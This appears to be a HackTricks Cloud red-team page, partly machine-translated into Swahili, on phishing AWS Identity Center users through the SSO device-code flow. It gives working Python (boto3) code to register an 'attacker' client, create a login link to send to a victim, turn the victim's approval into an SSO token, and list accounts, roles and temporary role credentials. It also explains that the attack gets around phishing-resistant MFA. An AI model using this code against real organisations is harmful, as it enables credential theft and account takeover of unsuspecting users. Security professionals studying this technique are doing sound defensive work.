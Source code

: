 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Kwanza ilipendekezwa katika [**hiki kipande cha blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), inawezekana kutuma **kiungo** kwa mtumiaji anaye tumia AWS SSO kwamba ikiwa **mtumiaji atakubali** mshambuliaji ataweza kupata **token ya kujifanya kuwa mtumiaji** na kufikia majukumu yote ambayo mtumiaji anaweza kufikia katika **Identity Center**.

Ili kutekeleza shambulio hili, mahitaji ni:

* Mwathirika anahitaji kutumia **Identity Center**
* Mshambuliaji lazima ajue **subdomain** inayotumiwa na mwathirika `<victimsub>.awsapps.com/start`

Kwa kutumia taarifa hizo, **mshambuliaji ataweza kutuma kiungo kwa mtumiaji** kwamba ikiwa **kikubaliwa** kitampa **mshambuliaji ufikiaji wa akaunti ya mtumiaji wa AWS**.

### Attack

1. **Finding the subdomain**

Hatua ya kwanza ya mshambuliaji ni kugundua subdomain ambayo kampuni ya mwathirika inatumia katika Identity Center yao. Hii inaweza kufanywa kupitia **OSINT** au **kukisia + BF** kwani kampuni nyingi zitakuwa zikitumika jina lao au toleo la jina lao hapa.

Kwa kutumia taarifa hii, inawezekana kupata eneo ambapo Identity Center ilipangwa na:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Tengeneza kiungo kwa mwathiriwa & Tuma**

Run the following code to generate an AWS SSO login link so the victim can authenticate.\
Kwa ajili ya onyesho, run this code in a python console and do not exit it as later you will need some objects to get the token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send the generated link to the victim using you awesome social engineering skills!

3. **Subiri hadi mwathirika akubali**

Ikiwa mwathirika alikuwa **tayari ameingia AWS** atahitaji tu kukubali kutoa ruhusa, ikiwa hakuwa, atahitaji **kuingia na kisha kukubali kutoa ruhusa**.\
Hii ndiyo jinsi ya kuonyesha inavyoonekana siku hizi:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Pata token ya SSO**

Ikiwa mwathirika alikubali kuonyesha,endesha hii code ili **kuunda token ya SSO kwa kujifanya kuwa mtumiaji**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
The SSO access token is **valid for 8h**.

5. **Jifanya kuwa mtumiaji**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Ni furaha kujua kwamba shambulio la awali **linafanya kazi hata kama "MFA isiyoweza kudanganywa" (webAuth) inatumika**. Hii ni kwa sababu **mchakato wa awali hauondoki kwenye eneo la OAuth lililotumika**. Si kama katika shambulio zingine za phishing ambapo mtumiaji anahitaji kubadilisha eneo la kuingia, katika kesi ambapo mchakato wa nambari ya kifaa umeandaliwa hivyo **nambari inajulikana na kifaa** na mtumiaji anaweza kuingia hata kwenye mashine tofauti. Ikiwa ombi litakubaliwa, kifaa, kwa **kujua nambari ya awali**, kitakuwa na uwezo wa **kurejesha akiba** kwa mtumiaji.

Kwa maelezo zaidi kuhusu hii [**angalia chapisho hili**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
